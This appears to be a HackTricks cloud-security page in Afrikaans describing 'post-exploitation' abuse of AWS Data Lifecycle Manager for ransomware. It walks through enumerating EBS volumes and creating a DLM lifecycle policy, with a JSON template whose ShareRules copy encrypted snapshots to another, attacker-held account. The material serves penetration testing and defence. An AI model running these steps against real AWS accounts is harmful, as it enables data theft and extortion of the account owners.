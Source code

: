 # AWS - DLM Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Data Lifecycle Manger (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

'n Ransomware-aanval kan uitgevoer word deur soveel EBS-volumes as moontlik te enkripteer en dan die huidige EC2-instances, EBS-volumes en snapshots te verwyder. Om hierdie kwaadwillige aktiwiteit te outomatiseer, kan 'n mens Amazon DLM gebruik, wat die snapshots met 'n KMS-sleutel van 'n ander AWS-rekening en die versleutelde snapshots na 'n ander rekening oordra. Alternatiewelik kan hulle snapshots sonder versleuteling na 'n rekening wat hulle bestuur oordra en dit dan daar versleut. Alhoewel dit nie regstreeks moontlik is om bestaande EBS-volumes of snapshots te enkripteer nie, is dit moontlik om dit te doen deur 'n nuwe volume of snapshot te skep.

Eerstens sal 'n mens 'n opdrag gebruik om inligting oor volumes te versamel, soos instansie-ID, volume-ID, versleutelingstatus, aanhegselsstatus en volumetipe.

`aws ec2 describe-volumes`

Tweedens sal 'n mens die lewensiklusbeleid skep. Hierdie opdrag gebruik die DLM API om 'n lewensiklusbeleid op te stel wat outomaties daaglikse snapshots van spesifieke volumes op 'n aangewese tyd neem. Dit pas ook spesifieke etikette op die snapshots toe en kopieer etikette van die volumes na die snapshots. Die policyDetails.json-lêer sluit die besonderhede van die lewensiklusbeleid in, soos teiketikette, skedule, die ARN van die opsionele KMS-sleutel vir versleuteling, en die teikrekening vir snapshotdeling, wat in die slagoffer se CloudTrail-logs aangeteken sal word.
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
'n Sjabloon vir die beleidsdokument kan hier gesien word:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{{#include ../../../banners/hacktricks-training.md}}
